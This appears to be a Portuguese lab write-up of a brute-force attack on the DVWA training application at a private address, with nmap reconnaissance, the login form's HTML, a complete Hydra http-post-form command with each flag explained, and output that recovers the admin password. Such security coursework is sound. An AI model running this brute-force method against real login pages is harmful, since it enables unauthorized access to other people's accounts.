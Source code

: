 
### 4.4. Ataque de Força Bruta em Aplicação Web (DVWA)

#### Reconhecimento Inicial

```bash
$ nmap -sV -p 80 192.168.56.102

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) DAV/2)
```

Acessei o DVWA em: `http://192.168.56.102/dvwa/`

#### Análise do Formulário de Login

Inspecionei o código HTML do formulário:

```html
<form action="login.php" method="post">
    <input type="text" name="username">
    <input type="password" name="password">
    <input type="submit" name="Login" value="Login">
</form>
```

**Mensagem de erro:** "Login failed"

#### Comando de Ataque (usando Hydra)

Para ataques web, o **Hydra** é mais adequado que o Medusa:

```bash
hydra -L wordlists/users.txt \
      -P wordlists/passwords.txt \
      192.168.56.102 \
      http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" \
      -V
```

**Explicação:**
- `-L`: Lista de usuários
- `-P`: Lista de senhas
- `http-post-form`: Módulo para formulários POST
- `"/dvwa/login.php:..."`: Caminho e parâmetros do formulário
- `^USER^` e `^PASS^`: Placeholders para usuário e senha
- `"Login failed"`: String que indica falha no login
- `-V`: Modo verbose

#### Resultado do Ataque

```
[ATTEMPT] target 192.168.56.102 - login "admin" - pass "123456"
[ATTEMPT] target 192.168.56.102 - login "admin" - pass "password"
[80][http-post-form] host: 192.168.56.102   login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
```

